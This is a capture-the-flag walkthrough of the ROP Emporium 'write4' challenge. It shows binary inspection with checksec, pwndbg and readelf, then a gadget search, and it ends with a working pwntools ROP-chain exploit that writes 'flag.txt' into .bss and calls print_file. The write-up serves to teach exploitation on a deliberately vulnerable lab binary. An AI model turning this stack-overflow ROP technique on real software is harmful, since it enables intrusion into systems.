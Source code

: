 # Challenge 4 - write4
## Description
This is the fourth of the ROP Emporium challenges. [write4](https://ropemporium.com/challenge/write4.html)

"Find and manipulate gadgets to construct an arbitrary read primitive, then use it to learn where and how to get your data into process memory."

Quick look at the binary info and running it
```
mfumega@pwn-boy:/pwn-boy$ file write4
write4: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=4cbaee0791e9daa7dcc909399291b57ffaf4ecbe, not stripped
mfumega@pwn-boy:/pwn-boy$ pwn checksec write4
[*] '/pwn-boy/write4'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'.'
    Stripped:   No
mfumega@pwn-boy:/pwn-boy$
mfumega@pwn-boy:/pwn-boy$ ./write4
write4 by ROP Emporium
x86_64

Go ahead and give me the input already!

> AAAA
Thank you!
mfumega@pwn-boy:/pwn-boy$
```

Based on what the challenge says on the page,  there is NO "/bin/cat flag.txt" string, and we must somehow open the "flag.txt" file. Let's look at the gadgets, aswell as the functions within the binary: 

```
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x00000000004004d0  _init
0x0000000000400500  pwnme@plt
0x0000000000400510  print_file@plt
0x0000000000400520  _start
0x0000000000400550  _dl_relocate_static_pie
0x0000000000400560  deregister_tm_clones
0x0000000000400590  register_tm_clones
0x00000000004005d0  __do_global_dtors_aux
0x0000000000400600  frame_dummy
0x0000000000400607  main
0x0000000000400617  usefulFunction
0x0000000000400628  usefulGadgets
0x0000000000400630  __libc_csu_init
0x00000000004006a0  __libc_csu_fini
0x00000000004006a4  _fini
pwndbg> disassemble usefulFunction
Dump of assembler code for function usefulFunction:
   0x0000000000400617 <+0>:     push   rbp
   0x0000000000400618 <+1>:     mov    rbp,rsp
   0x000000000040061b <+4>:     mov    edi,0x4006b4
   0x0000000000400620 <+9>:     call   0x400510 <print_file@plt>
   0x0000000000400625 <+14>:    nop
   0x0000000000400626 <+15>:    pop    rbp
   0x0000000000400627 <+16>:    ret
End of assembler dump.
pwndbg> disassemble print_file
Dump of assembler code for function print_file@plt:
   0x0000000000400510 <+0>:     jmp    QWORD PTR [rip+0x200b0a]        # 0x601020 <print_file@got.plt>
   0x0000000000400516 <+6>:     push   0x1
   0x000000000040051b <+11>:    jmp    0x4004f0
End of assembler dump.
pwndbg> disassemble usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x0000000000400628 <+0>:     mov    QWORD PTR [r14],r15
   0x000000000040062b <+3>:     ret
   0x000000000040062c <+4>:     nop    DWORD PTR [rax+0x0]
End of assembler dump.
pwndbg>
```

Well, the challenge also told us "Once you've figured out how to write your string into memory and where to write it, go ahead and call `print_file()` with its location as its only argument.

So, basically we must write "flag.txt" somewhere in memory, and then pass the address containing that string to the "print_file()" as an argument. 

The challenge is giving us the following register `mov [r14], r15`. What is this doing? 
Well, it's gonna move whatever is r15 equal to, into the address r14 points. 

For instance if we have r15 = "random", and r14 = 0xdeadbeef, if we use that instruction, it will store "random" at the memory address 0xdeadbeef. 
So, long story short, it's a gadget that let us write into memory. 

This is called a "writing primitive". 

And where are we going to write our string? LEt's see which parts of our binary are we allowed to write: 
```
mfumega@pwn-boy:/pwn-boy$ readelf -S write4
There are 29 section headers, starting at offset 0x1980:

Section Headers:
  [Nr] Name              Type             Address           Offset
       Size              EntSize          Flags  Link  Info  Align
  [ 0]                   NULL             0000000000000000  00000000
       0000000000000000  0000000000000000           0     0     0
  [ 1] .interp           PROGBITS         0000000000400238  00000238
       000000000000001c  0000000000000000   A       0     0     1
  [ 2] .note.ABI-tag     NOTE             0000000000400254  00000254
       0000000000000020  0000000000000000   A       0     0     4
  [ 3] .note.gnu.bu[...] NOTE             0000000000400274  00000274
       0000000000000024  0000000000000000   A       0     0     4
  [ 4] .gnu.hash         GNU_HASH         0000000000400298  00000298
       0000000000000038  0000000000000000   A       5     0     8
  [ 5] .dynsym           DYNSYM           00000000004002d0  000002d0
       00000000000000f0  0000000000000018   A       6     1     8
  [ 6] .dynstr           STRTAB           00000000004003c0  000003c0
       000000000000007c  0000000000000000   A       0     0     1
  [ 7] .gnu.version      VERSYM           000000000040043c  0000043c
       0000000000000014  0000000000000002   A       5     0     2
  [ 8] .gnu.version_r    VERNEED          0000000000400450  00000450
       0000000000000020  0000000000000000   A       6     1     8
  [ 9] .rela.dyn         RELA             0000000000400470  00000470
       0000000000000030  0000000000000018   A       5     0     8
  [10] .rela.plt         RELA             00000000004004a0  000004a0
       0000000000000030  0000000000000018  AI       5    22     8
  [11] .init             PROGBITS         00000000004004d0  000004d0
       0000000000000017  0000000000000000  AX       0     0     4
  [12] .plt              PROGBITS         00000000004004f0  000004f0
       0000000000000030  0000000000000010  AX       0     0     16
  [13] .text             PROGBITS         0000000000400520  00000520
       0000000000000182  0000000000000000  AX       0     0     16
  [14] .fini             PROGBITS         00000000004006a4  000006a4
       0000000000000009  0000000000000000  AX       0     0     4
  [15] .rodata           PROGBITS         00000000004006b0  000006b0
       0000000000000010  0000000000000000   A       0     0     4
  [16] .eh_frame_hdr     PROGBITS         00000000004006c0  000006c0
       0000000000000044  0000000000000000   A       0     0     4
  [17] .eh_frame         PROGBITS         0000000000400708  00000708
       0000000000000120  0000000000000000   A       0     0     8
  [18] .init_array       INIT_ARRAY       0000000000600df0  00000df0
       0000000000000008  0000000000000008  WA       0     0     8
  [19] .fini_array       FINI_ARRAY       0000000000600df8  00000df8
       0000000000000008  0000000000000008  WA       0     0     8
  [20] .dynamic          DYNAMIC          0000000000600e00  00000e00
       00000000000001f0  0000000000000010  WA       6     0     8
  [21] .got              PROGBITS         0000000000600ff0  00000ff0
       0000000000000010  0000000000000008  WA       0     0     8
  [22] .got.plt          PROGBITS         0000000000601000  00001000
       0000000000000028  0000000000000008  WA       0     0     8
  [23] .data             PROGBITS         0000000000601028  00001028
       0000000000000010  0000000000000000  WA       0     0     8
  [24] .bss              NOBITS           0000000000601038  00001038
       0000000000000008  0000000000000000  WA       0     0     1
  [25] .comment          PROGBITS         0000000000000000  00001038
       0000000000000029  0000000000000001  MS       0     0     1
  [26] .symtab           SYMTAB           0000000000000000  00001068
       0000000000000618  0000000000000018          27    46     8
  [27] .strtab           STRTAB           0000000000000000  00001680
       00000000000001f6  0000000000000000           0     0     1
  [28] .shstrtab         STRTAB           0000000000000000  00001876
       0000000000000103  0000000000000000           0     0     1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  D (mbind), l (large), p (processor specific)
mfumega@pwn-boy:/pwn-boy$
```

We have writing access to the sections [18] to [24]. 
".bss" is where we are going to write our string into. 

So, we now need to pick our gadgets. We know that we must pass the address with our string to "usefulFunction", so we're gonna need "RDI", and we must play with r14 and r15 registers. So we need the "mov [r14], r15" gadget amd a way tp put the values there with a "pop r14, r15" instruction.

```
mfumega@pwn-boy:/pwn-boy$ ropper --file write4 --search "mov [r14]"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov [r14]

[INFO] File: write4
0x0000000000400628: mov qword ptr [r14], r15; ret;

mfumega@pwn-boy:/pwn-boy$ ropper --file write4 --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: write4
0x0000000000400693: pop rdi; ret;

mfumega@pwn-boy:/pwn-boy$
```

Now we can build our exploit with pwntools as follows: 

```python
#!/usr/bin/env python3
from pwn import *
context.arch = 'amd64'
binary_path = '/pwn-boy/write4'
p = process(binary_path)
#p = gdb.debug(binary_path)
e = p.elf

# Addresses
pop_r14_r15 = p64(0x400690)
mov_r14_r15 = p64(0x400628)
pop_rdi = p64(0x400693)
print_file = p64(0x400620)
bss_addr = p64(0x601038)


offset = 40

payload = b'A' * offset
payload += pop_r14_r15 + bss_addr + b'flag.txt'
payload += mov_r14_r15
payload += pop_rdi + bss_addr
payload += print_file


p.send(payload)
response = p.recvall()
print(response.decode())
```

aaaaand we got the flag :D

